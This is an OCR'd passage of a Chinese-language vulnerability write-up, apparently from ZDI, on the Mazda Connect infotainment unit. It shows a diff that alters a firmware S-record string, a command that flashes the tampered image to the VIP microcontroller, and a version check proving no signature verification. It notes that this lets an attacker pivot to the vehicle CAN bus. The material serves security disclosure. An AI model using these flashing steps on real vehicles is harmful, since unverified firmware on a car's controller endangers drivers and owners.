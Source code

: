 mazda_connect-9.txt 由 GitHub ❤ 托管  
  
这些字符串位于更新文件 image-vip_appvfbl.mot，将被编程到 VIP MCU 内存空间中的内存地址 0xC000A，似乎是跨越地址 0xC0000 至 0xFFFFF 的应用映像的一部分。通过修改这些字符串，可以确定映像在编程到内部存储器之前是否经过验证。  
  
我们对原始 S 记录文件进行了处理，修改了一个字符串，以产生不同固件的可见指示，并将生成的映像编程回 VIP MCU：  
```
% diff  ./image-original.mot ./image-haxd-fixd.mot 
457c457 
< S2240C00200000000000000000535720502F4E3A202058585858585858000000000000000036 
--- 
> S2240C00200000000000000000535720502F4E3A202048415844204259205A444900000000B7 
```  
```
/tmp/mnt/sda1 # ./vcm --write-image image-haxd-fixd.mot  
 
 
Data Flashed: 589168 of 589168 bytes 
VIP Rebooted
```  
  
mazda_connect-11.txt 由 GitHub ❤ 托管  
  
使用同一命令进行版本检查，可以确认篡改的图像是否被接受：  
```
/tmp/mnt/sda1 # ./vcm --get-all-version 
[VIP VersionInfo] 
================= 
 
OEM P/N: YYYYYYY 
SW P/N:  HAXD BY ZDI 
CMU_LIN_CAN_DUAL 
VIP_APP-MAZ150_10.13.012 
VIP_CAN-MAZ140_07.09.020 
VIP_DIAG-MAZ140_02.77.502 
VIP_VBM-MAZ140_15.33.634 
VIP_VFBL-MAZ140_02.00.500 
CPP_VIPALOGMON_08.08.500 
CPP_VIPBTL_05.07.500 
CPP_VIPCFG_06.01.500 
CPP_VIPEEMGR_05.06.501 
CPP_VIPGPIOMON_04.05.502 
CPP_VIPHBMON_04.05.500 
CPP_VIPIUC_08.09.506 
CPP_VIPLINDRVR_05.05.501 
CPP_VIPPWRMON_10.01.507 
CPP_VIPSPIDRVR_02.21.502 
CPP_VIPVOLMGR_06.12.602 
```  
  
mazda_connect-12.txt 由 GitHub ❤ 托管  
  
从更广泛的意义上讲，这允许攻击者通过安装伪造的固件版本，从运行 Linux 的受攻击应用 SoC 转到 VIP MCU，并随后直接访问车辆的 CAN 总线。  
  
漏洞利用  
  